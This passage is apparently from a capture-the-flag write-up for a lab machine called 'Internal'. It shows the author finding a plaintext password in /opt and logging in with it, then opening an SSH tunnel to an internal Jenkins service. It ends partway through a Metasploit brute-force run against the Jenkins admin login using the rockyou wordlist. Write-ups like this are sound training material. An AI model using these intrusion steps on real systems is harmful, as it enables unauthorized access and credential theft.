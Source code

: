 I checked the database in the `/phpmyadmin` directory using this credentials but nothing interesting there. No interesting `SUID` files neither, and `linpeas` wasn't helping neither. After some manual enumeration i found something in the `opt` directory:

```
www-data@internal:/opt$ cat wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

So we got the user credentials: `aubreanna:bubb13guM!@#123` Just login to the accound and get the flag:
```
aubreanna@internal:~$ cat /home/aubreanna/user.txt 
THM{*******************}
```

### Privesc to root

First thing, during the first enumeration phase as www-data i couldn't really find something of interest to get root using exploits for outdated things so we will have to continue with the manual enumeration. Let's check our groups:

```
aubreanna@internal:~$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```
That adm group will allow me to read logs so we can try that later if necessary. I also saw a `jenkins.txt` file in our `home` folder:

```
Internal Jenkins service is running on 172.17.0.2:8080
```

I will use `ssh` tunneling to access this from my machine, first:

```
ssh -N -p 22 aubreanna@internal.thm -L 2000:localhost:8080
```

Use aubreanna credentials and the jenkins server is now available from `localhost:2000`. After some basic enumeration a used metasploit to try a bruteforce attack in the default admin user:
```
msf> use auxiliary/scanner/http/jenkins_login
msf6 auxiliary(scanner/http/jenkins_login) > set RHOSTS localhost
RHOSTS => localhost
msf6 auxiliary(scanner/http/jenkins_login) > set TARGETURI /
TARGETURI => /
msf6 auxiliary(scanner/http/jenkins_login) > set RPORT 2000
RPORT => 2000
msf6 auxiliary(scanner/http/jenkins_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf6 auxiliary(scanner/http/jenkins_login) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(scanner/http/jenkins_login) > set PASSWORD ""
PASSWORD => 
msf6 auxiliary(scanner/http/jenkins_login) > set PASS_FILE /home/kali/rockyou.txt
PASS_FILE => /home/kali/rockyou.txt
msf6 auxiliary(scanner/http/jenkins_login) > run
...
[-] 127.0.0.1:2000 - LOGIN FAILED: root:michael (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:ashley (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:qwerty (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:111111 (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:iloveu (Incorrect)
```